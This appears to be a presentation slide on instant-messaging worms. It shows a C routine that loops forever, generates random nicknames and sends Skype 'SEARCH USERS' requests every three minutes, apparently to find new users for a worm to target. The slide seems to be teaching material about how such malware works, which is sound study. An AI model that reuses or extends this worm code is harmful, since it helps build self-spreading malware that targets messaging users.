

IM Worms-Generate random nicknames
DWORD WINAPI S3arch(LPVOID Data)
{
	char msg[128];
	COPYDATASTRUCT cds;
	while(1)
	{
	GetRandNick();
	sprintf(msg,"SEARCH USERS %s",rnd_nick);
	cds.dwData= 0;
                  cds.lpData= msg;
                  cds.cbData= strlen(msg)+1;
	if(!SendMessage(SkypeWnd, WM_COPYDATA, Answer , (LPARAM)&cds))
	{
		/* skype closed */
		ExitProcess(0);
	}
	Sleep((1000*60)*3); /* every 3 minutes */
	}
}